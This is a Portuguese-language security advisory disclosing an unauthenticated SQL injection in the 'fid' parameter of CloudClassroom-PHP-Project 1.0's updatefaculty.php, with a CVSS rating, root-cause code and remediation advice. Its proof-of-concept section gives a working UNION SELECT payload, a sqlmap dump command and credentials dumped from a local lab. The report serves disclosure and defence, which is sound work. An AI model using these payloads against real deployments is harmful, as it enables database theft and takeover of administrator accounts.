


# CloudClassroom-PHP-Project 1.0 — SQL Injection em updatefaculty.php (parâmetro fid)

| Campo | Valor |
|-------|-------|
| **ID interno** | CC-2026-04 |
| **Produto** | CloudClassroom-PHP-Project 1.0 |
| **Fornecedor** | Vishal Mathur (`mathurvishal`) |
| **Arquivo(s)** | `updatefaculty.php` |
| **Classe** | SQL Injection (UNION-based / error-based) |
| **CWE** | CWE-89: SQL Injection |
| **OWASP** | A03:2021 – Injection |
| **Método / Parâmetro(s)** | GET (+POST no UPDATE) — `fid` |
| **Autenticação** | Nenhuma (via Broken Access Control — item 00; o design pediria sessão de admin) |
| **Interação do usuário** | Nenhuma |
| **CVSS v3.1** | **9.1 (Crítico)** — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
| **EPSS** | N/A (sem CVE) — estimativa baixa (~0,03–0,09). |
| **Status público** | Inédito |

---

## 1. Resumo executivo

O parâmetro `fid` é interpolado sem aspas (numérico) na consulta SELECT. Em contexto numérico é possível `UNION SELECT`. A tabela consultada expõe 9 colunas. Confirmado com dump não-autenticado das credenciais de admin.

## 2. Pré-condições

Nenhuma no alvo (item 00). Com o requisito de sessão original, PR sobe e o score cai.

## 3. Análise de código (causa-raiz)

**`updatefaculty.php`**

```php
$x=$_GET['fid'];
$sql="select * from <tabela> WHERE <col>=$x";
$rs=mysqli_query($connect,$sql);
```

## 4. Passo a passo de exploração

1. Requisitar `updatefaculty.php` com `fid` contendo o payload UNION (sem cookie — item 00).
2. Ajustar a contagem de colunas para 9 (tabela alvo) e posicionar os dados na coluna exibida.
3. Ler as credenciais de admin refletidas na resposta.
4. Automatizar com sqlmap (`-p fid`) para dump completo.

## 5. Prova de conceito (PoC)

Script executável e não-destrutivo: **`poc.sh`** (uso: `bash poc.sh [http://alvo:porta]`).

```bash
curl -s -G "http://127.0.0.1:9292/updatefaculty.php" \
  --data-urlencode "fid=0 UNION SELECT 1,concat(0x5b,Aid,0x3a,Apass,0x5d),3,4,5,6,7,8,9 FROM admin -- -" | grep -oE "\[[^]]*:[^]]*\]"

sqlmap -u "http://127.0.0.1:9292/updatefaculty.php?fid=1" -p fid --batch --dump -T admin
```

**Evidência observada no laboratório (http://127.0.0.1:9292/):**

```
[admin@ics.com:admin]
[vishu:vishu]
```

### 5.1 Evidência visual (re-validação ao vivo em 2026-08-02)

Ataque reproduzido ao vivo contra http://127.0.0.1:9292/ de forma não-destrutiva (leituras/erro-based, e injeções de estado com restauração automática do valor original).

**a) Execução no navegador** — resposta real do servidor renderizada no Chromium, com faixa de evidência (requisição + payload + veredito):



**b) Linha de código vulnerável** — trecho do código-fonte com o *sink* destacado (`updatefaculty.php`):



## 6. Impacto

Leitura arbitrária do banco (C:H) — PII, senhas em texto puro, credenciais de admin; escrita via o sink UPDATE/POST (I:H); comprometimento total em cadeia.

## 7. Avaliação de severidade (CVSS v3.1)

Vetor: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` — **Base 9.1 (Crítico)**

| Métrica | Valor |
|---|---|
| Attack Vector (AV) | Network (N) |
| Attack Complexity (AC) | Low (L) |
| Privileges Required (PR) | None (N) |
| User Interaction (UI) | None (N) |
| Scope (S) | Unchanged (U) |
| Confidentiality (C) | High (H) |
| Integrity (I) | High (H) |
| Availability (A) | None (N) |

**EPSS:** N/A (sem CVE) — estimativa baixa (~0,03–0,09).

## 8. Remediação

- Usar prepared statements com bind de parâmetros (`mysqli`/PDO) em 100% das consultas.
- Forçar o tipo dos identificadores numéricos (`(int)$id`) e usar allowlist quando aplicável.
- Não ecoar `$sql`/`mysqli_error()` ao cliente (remover oráculo de erro).
- Aplicar `exit;` após o guard de sessão (ver item 00).

## 9. Ineditismo / pesquisa de duplicidade

Nenhuma CVE pública para este arquivo/parâmetro no produto Vishal Mathur nem no código-base gêmeo 'CodeAstro Online Classroom'. Verificado em NVD/cvefeed em 2026-08-02.

## 10. Referências

- https://cwe.mitre.org/
- https://www.first.org/cvss/calculator/3.1
- https://cvefeed.io/vuln/product/161371/vishalmathurcloudclassroom-php_project/

## 11. Cronologia

- 2026-08-02 — Descoberta (análise estática) e confirmação dinâmica no laboratório.
- 2026-08-02 — Preparação do pacote de divulgação (este relatório).

---
*Relatório gerado a partir de `_lib/findings_data.py` (fonte única). Pesquisador: oliveira.luanalmeida@gmail.com e ethical.hacker.tiagoredivo@gmail.com .*
